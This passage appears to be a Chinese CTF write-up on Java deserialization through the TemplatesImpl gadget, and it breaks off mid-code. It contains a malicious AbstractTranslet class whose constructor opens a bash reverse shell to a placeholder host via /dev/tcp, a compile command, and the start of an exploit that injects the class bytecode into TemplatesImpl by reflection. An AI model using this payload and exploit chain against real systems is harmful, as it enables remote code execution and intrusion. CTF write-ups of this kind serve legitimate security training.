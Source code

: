 编写一个要加载的类 atao.java

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;

public class atao extends AbstractTranslet {
    public void transform(DOM var1, SerializationHandler[] var2) throws TransletException {
    }

    public void transform(DOM var1, DTMAxisIterator var2, SerializationHandler var3) throws TransletException {
    }

    public atao() throws IOException {
        Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "exec bash -i &>/dev/tcp/ip/port <&1"});
    }
}
```

使用`javac`转成class文件

```shell
javac atao.java
```

**EXP**

```java
package com.game.ctf.Utils;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import javax.xml.transform.TransformerConfigurationException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;

public class exp {
    public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException, TransformerConfigurationException, ClassNotFoundException {
        File file = new File("atao.class");
        FileInputStream fis = new FileInputStream(file);

        long fileSize = file.length();
        byte[] bytes = new byte[(int) fileSize];
        fis.read(bytes);

        TemplatesImpl templates = new TemplatesImpl();

        Class c = TemplatesImpl.class;
        Field bytecodes = c.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, new byte[][] {bytes});

        Field name = c.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "atao");

```